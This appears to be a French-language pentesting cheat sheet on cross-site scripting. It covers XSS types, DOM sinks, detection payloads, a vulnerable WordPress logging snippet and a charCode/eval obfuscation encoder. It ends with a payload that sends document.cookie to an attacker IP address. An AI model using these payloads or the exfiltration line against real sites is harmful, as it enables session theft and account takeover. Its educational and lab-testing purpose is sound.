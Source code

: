 Code exécuté sur une page chargé par un autre utilisateur. Causé par une mauvaise gestion des charactères spéciaux
# Chemin d'une requête
Plusieurs intervenant peuvent encoder/bloquer des requêtes causants plusieurs cas étranges à divers niveaux.
Navigateur(encode)/Outils(encode pas) -> WAF(pourrait filtrer) -> serveur(décode,décode pas,encode, encode pas) -> réponse (en-tête de protection, pas d'en-tête)

# Stored (Persistent)
Le contenu malicieu est placé sur le serveur pour être retourné plus tard à un utilisateur. Ex: post ou commentaire.
# Reflected (non-persistent)
Le contenu se trouve dans la requête ou le lien. Ex: Résultat de recherche ou message d'erreur
# DOM-based XSS (Non-persistent)
N'atteint jamais le serveur. Affiché dans le navigateur et processé du côté client. Ne charge pas une nouvelle page mais modifie la page courrante (DOM). Ex: paramètre HTTP côté client ou tag d'encrage.
Source: objet JS qui prend entrées utilisateur (param URL ou champ)
Sink: Fonction qui écrit l'entrée vers un DOM
* document.write()
* DOM.innerHTML
* DOM.outerHTML
* add()
* after()
* append()
Regarder le code JS, si les entrées ne sont pas vérifié

# Détection
Indice: si on peut voir un résultat d'une de nos entrées	
Vérifier que les charactères spéciaux sont supportés:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
< > ' " { } ;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
<script>alert(42)</script>
<script>alert(window.origin)</script>
<script>print()</script>
#Transorme le code le suivant en texte
<plaintext>
<script>alert(document.cookie)</script>
<img src="" onerror=alert(window.origin)>
<iframe src=”javascript:alert(1)”></iframe>
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
https://github.com/payloadbox/xss-payload-list

On peut ensuite voir notre dans le code source de la page.

# Example de code vulnérable
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
function VST_save_record() {
	global $wpdb;
	$table_name = $wpdb->prefix . 'VST_registros';

	VST_create_table_records();

	return $wpdb->insert(
		$table_name,
		array(
			'patch' => $_SERVER["REQUEST_URI"],
			'datetime' => current_time( 'mysql' ),
			'useragent' => $_SERVER['HTTP_USER_AGENT'],
			'ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
		)
	);
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

useragent inclue directement le contenu de l'en-tête

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~html
<td>'.$record->useragent.'</td>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Exécuter du code en HTML
1.  minifier le code (https://jscompress.com/ )
2.  encoder 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



*eval()* exécute du code javascript en string

```js
<script>eval(String.fromCharCode(118,97,...,59))</script>
```

# Voler des cookies
```js
<img src=x onerror=this.src='[http://10.10.14.115:8000/'+btoa(document.cookie)>
```